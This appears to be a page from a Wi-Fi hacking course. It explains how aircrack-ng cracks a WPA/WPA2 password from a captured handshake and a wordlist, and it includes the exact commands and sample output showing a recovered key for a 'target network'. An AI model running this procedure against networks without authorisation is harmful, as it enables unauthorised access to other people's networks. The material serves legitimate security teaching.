 ```yaml
---
title: Cracking WPA and WPA2 Using a Wordlist Attack
type: default
layout: page
child: Cracking
fold: Network Cracking
---
```


From the previous lectures, we learned that in order to crack WPA or WPA2, we
need to first capture the handshake and also have a wordlist, which contains a
number of passwords that we are going to try, and hopefully, one of them will be
the password for the target network.

We already have both of those components, and we are ready to go and crack the
password. To do this, we are going to use _aircrack-ng_. It is going to unpack
the handshake, and extract the useful information (_SP Address_, _STA Address_,
_AP Nonce_, _STA Nonce_, _EAPOL_, _Payload_ and _MIC_).

MIC (Message Integrity Code) is what is used by the access point to verify
whether a password is correct or not. Aircrack-ng is going to separate it and
put it to the side, and then is going to use all the other information, combined
with the first password from the wordlist to generate a _**MIC**_, another
message integrity code. Then, it is going to compare the generated MIC with the
one that is already in the handshake, if the MIC generated using the packet's
information plus the first password is the same, then the password used to
generate the MIC is the password for the network, otherwise, the password is
wrong and it will move to the next password. It will do the same, it will use
all the information contained in the handshake, combined with the password to
generate a new MIC and compare it with the MIC contained in the handshake, if
the generated MIC is the same to the MIC in the handshake, then the password is
correct, otherwise it will move to the next password. Aircrack-ng is going to
keep doing this through all of the passwords in the wordlist, if any of them
generates the right MIC, then this is the password for the network, otherwise we
won't be able to get the password of the network. That's why the success of this
attack really depends on your wordlist.

Remember we created a wordlist before called _test.txt_ using _Crunch_, we also
have a file called _wpa-handshake-01.cap_ which contains our handshake. Now we
are ready to run aircrack-ng. We are going to fire up a terminal, type the name
of the program (_aircrack-ng_), followed by the name of our capture file
containing our handshake and we'll also specify the wordlist we want to try to
look for the password, to do that, we'll append the "_-w_" option followed by
the name of our wordlist. The command would look like this:

```bash
aircrack-ng [CapFileContainingTheHandshake] -w [Wordlist]
```

If we replace the _[...]_ with our actual information, the command would look
like the following:

```bash
aircrack-ng wpa_handshake-01.cap -w test.txt
```

If we execute that command, you'd get an output similar to the following:



                               Aircrack-ng 1.6 

      [00:00:05] 1680/46656 keys tested (773.68 k/s) 

      Time left: 1 minute, 18 seconds                           99.95%

                       Current passphrase: 3332c3                     


      Master Key     : 28 E4 FF 6D 39 46 03 E3 A4 25 1D D9 CE A3 68 5C 
                       C0 46 73 E7 AD D6 B8 E4 5C A2 78 2F 48 0E 6C 58 

      Transient Key  : 47 1B 5A EF 93 C2 60 25 5A 5A DB 68 54 B4 6E A8 
                       07 B8 FC 8E AA 95 2D 78 B5 B6 BB 44 72 A1 EA EA 
                       DA 2A A3 A0 73 B4 FB 22 09 37 12 A1 01 CC B0 E2 
                       4D F9 4D B4 B9 63 F1 9F 59 B9 18 84 E9 D6 14 81 

      EAPOL HMAC     : C5 CF D6 9C 74 50 26 33 F1 D9 11 21 91 A0 B7 05

As you can see, now _aircrack-ng_ is running through the wordlist, testing each
word in the wordlist one by one as explained before, calculating an MIC based on
the information contained in the handshake, and then, if the MIC is correct, it
is going to tell me that it found the password.

The speed of this process depends on your processor, and the size of your
wordlist, if you have a big file it is going to obviously take much more time.

If aircrack-ng finds the password, you'd get the following output:


                               Aircrack-ng 1.6 

      [00:01:01] 46632/46656 keys tested (773.68 k/s) 

      Time left: 0 seconds                                      99.95%

                           KEY FOUND!  [ 12345670 ]                   


      Master Key     : 28 E4 FF 6D 39 46 03 E3 A4 25 1D D9 CE A3 68 5C 
                       C0 46 73 E7 AD D6 B8 E4 5C A2 78 2F 48 0E 6C 58 

      Transient Key  : 47 1B 5A EF 93 C2 60 25 5A 5A DB 68 54 B4 6E A8 
                       07 B8 FC 8E AA 95 2D 78 B5 B6 BB 44 72 A1 EA EA 
                       DA 2A A3 A0 73 B4 FB 22 09 37 12 A1 01 CC B0 E2 
                       4D F9 4D B4 B9 63 F1 9F 59 B9 18 84 E9 D6 14 81 

      EAPOL HMAC     : C5 CF D6 9C 74 50 26 33 F1 D9 11 21 91 A0 B7 05

Now, you can use the password _12345670_ to connect to the target network.
